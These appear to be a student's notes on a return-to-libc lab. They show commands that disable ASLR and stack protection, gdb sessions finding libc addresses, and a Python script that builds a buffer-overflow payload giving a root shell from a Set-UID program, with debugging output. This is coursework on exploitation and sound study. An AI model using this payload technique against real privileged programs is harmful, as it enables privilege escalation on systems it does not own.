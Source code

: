 # Return-to-Libc Lab
## Lab Setup
- turn off countermeasures
    1. no ASRL: `$ sudo sysctl -w kernel.randomize_va_space=0`
    2. no SafeGuard: add `-fno-stack-protector` flag when compiling
    3. **non-executable** stack: add `-z noexecstack` flag when compiling
    4. replace `/bin/dash`, which has a countermeasure to revoke privilege when running `Set-UID` programs: `$ sudo ln -sf /bin/zsh /bin/sh`

## Task 1: Finding out the Addresses of `libc` Functions
- in Linux, when a program runs, the `libc` library will be loaded into memory
- when ASRL is turned off, for the same program, the library is always loaded in the same memory address (for the same program, if we change it from a `Set-UID` program to a normal program, the `libc` may not be loaded to the same location)
- use the `gdb` to debug the program,  and find the address of `system()`
    - commands
        - `run` execute the target program once
        - `p` (or `print`) print out the address of `system()` and `exit()` functions
        - `gdb -q retlib` debug `retlib` in quite mode
    - open `retlib` with gdb, and set a break point at `main()`, `run`, the program will pause when it reaches `main()`, and the `libc` will be loaded, then use `p` to print out the address of `system()` and `exit()`
        ```
        $ gdb -q retlib
        Reading symbols from retlib...
        (No debugging symbols found in retlib)
        gdb-peda$ break main
        Breakpoint 1 at 0x12ef
        gdb-peda$ run
        Starting program: ...
        ...
        Breakpoint 1, 0x565562ef in main()
        gdb-peda$ p system
        $1 = {<text variable, no debug info>} 0xf7e12420 <system>
        gdb-peda$ p exit
        $2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
        gdb-peda$ quit
        $
        ```
    - we can also run `gdb` in batch mode, i.e., put `gdb` commands in a file
        - `gdb -q -batch -x gdb_command.txt ./retlib`
        - `gdb_command.txt`
            ```
            break main
            run
            p system
            p exit
            quit
            ```
## Task 2: Putting the Shell String in the Memory
- goal: jump to `system()` and get it to execute an arbitrary command, e.g., `"/bin/sh"`
- use environment variable
    - when running a program from a shell prompt, it actually spawns a child process to execute the program, and all the exported shell variables become the environment variables of the child process
    - create a shell variable `MYSHELL`: `$ export MYSHELL=/bin/sh`, we can check this via `env | grep MYSHELL` or `printenv MYSHELL` or `printenv | grep MYSHELL`
    - find the location of this variable in the memory
        - `prtenv.c`
            ```
            ...
            void main() {
                char *shell = getenv("MYSHELL");
                if(shell) {
                    printf("%x\n", (unsigned int) shell);
                }
            }
            ```
        ```
        $ ./prtenv
        ffffe3fd
        $ ./prtenv
        ffffe3fd
        ```

## Task 3: Launching the Attack
- when we run `retlib` with a benign input, we can know the value of `ebp` and `&buffer`
- **IMPORTANT**: if we use `p $ebp` to check the value of `ebp` in `gdb` when in `bof()`, we will get a different value, because `gdb` run this program with its absolute path, and `gdb` sets some extra environment variables
- however, we don't need the exact value of `ebp`, we only need to know `$ebp-&buffer`, it's 24
- create the payload in `badfile` with `exploit.py` (the initial version)
    ```
    #!/usr/bin/env python3
    import sys

    offset = 24

    content = bytearray(0xaa for i in range(300))

    X = offset + 12
    sh_addr = 0xffffe3fd # The address of "/bin/sh"
    content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')

    Y = offset + 4
    system_addr = 0xf7e0d370 # The address of system()
    content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

    Z = offset + 8
    exit_addr = 0xf7dffed0 # The address of exit()
    content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')
    ```
- **trouble shooting**
    - after generating a new `badfile`, run `./retlib`, it doesn't spawn a new shell
    - debug `retlib` with `gdb`, in the `bof()`, we can see the stack information
        ```
        ...
        0040| 0xffffcd08 --> 0xaaaaaaaa
        0044| 0xffffcd08 --> 0xf7e0d370 (<system>:   endbr32)
        0048| 0xffffcd08 --> 0xf7dffed0 (<exit>:   endbr32)
        0052| 0xffffcd08 --> 0xffffe3fd
        0056| 0xffffcd08 --> 0xaaaaaaaa
        ...
        gdb-peda$ x/s 0xffffe3fd
        0xffffe3fd:   <error: Cannot access memory at address 0xffffe3fd>
        ```
    - the problem is that the address of the string `"/bin/sh"` is not accessible by the program

    - **FIX**: after analyzing, the prolem is that when compiling `prtenv.c`, I didn't add `-m32` flag, so the program is a 64-bit program, it gave a warning that the size of `unsigned int` and `char*` is different when converting, so in this case, I actually got the lower 32 bits of a 64-bit address, which was not the 32-bit address of the string "/bin/sh", the correct address is `0xffffd3fd`
    - after compile `prtenv.c` with `-m32` flag and get the correct address, generate the new `badfile`, then run `./retlib`, we got a shell with root privilege 
        ```
        $ ./retlib
        Address of input[] inside main(): 0xffffcd90
        Input size: 300
        Address of buffer[] inside bof(): 0xffffcd60
        Frame Pointer value inside bof(): 0xffffcd78
        # whoami
        root
        ```
- variations
    1. try attack without including the address of `exit()` in the payload (still works)
        - another variation: the original attack prompts a new shell, to see how the program behave after `system()` finishs execution, use another command `export MYSHELL=/bin/ls`
        - with `exit()`
            ```
            ./retlib
            Address of input[] inside main(): 0xffffcd90
            Input size: 300
            Address of buffer[] inside bof(): 0xffffcd60
            Frame Pointer value inside bof(): 0xffffcd78
            exploit.py    prtenv     retlib    retlibnewxxxxxxx
            badfile       Makefile   prtenv.c  retlib.c
            ```
        - without `exit()`
            ```
            ./retlib
            Address of input[] inside main(): 0xffffcd90
            Input size: 300
            Address of buffer[] inside bof(): 0xffffcd60
            Frame Pointer value inside bof(): 0xffffcd78
            exploit.py    prtenv     retlib    retlibnewxxxxxxx
            badfile       Makefile   prtenv.c  retlib.c
            Segmentation fault (<---- THE PROGRAM DIDN'T END NORMALLY)
            ```
        - we can see that `exit()` ensures the program to end normally, the reason is that after `system()` finishes, it runs `ret` instruction, pop the address of `exit()` and return to that address
    2. change the length of name of `retlib` (not work anymore, because the name of the program will be stored in the arguments, changing the length of it may cause some addresses to change)
        ```
        $ ./retlib
        Address of input[] inside main(): 0xffffcd80
        Input size: 300
        Address of buffer[] inside bof(): 0xffffcd50
        Frame Pointer value inside bof(): 0xffffcd68
        Segmentation fault
        ```

- stack before return to `system()`
    ```
    High Memory Addresses
    |          +---------------------+ 
    |          |        ...          |
    |          |---------------------|    
    |          |       sh_addr       |
    |          |---------------------|
    |          |      exit_addr      |
    |          +---------------------+ 
    |          |     system_addr     | (return address)
    |          +---------------------+
    |          |      old ebp        |
    |          |---------------------| <---- ebp
    |          |        ...          |    
    |          +---------------------+
    |          |    Unused Space     |
    |          +---------------------+
    Low Memory Addresses
    ```

- stack before return to `system()`
    ```
    High Memory Addresses
    |          +---------------------+ 
    |          |        ...          |
    |          |---------------------|    
    |          |       sh_addr       |
    |          |---------------------|
    |          |      exit_addr      | (return address)
    |          +---------------------+
    |          |        ...          |    
    |          +---------------------+
    |          |    Unused Space     |
    |          +---------------------+
    Low Memory Addresses
    ```

## Task 4: Defeat Shell's Countermeasure

## Task 5: Return-Oriented Programming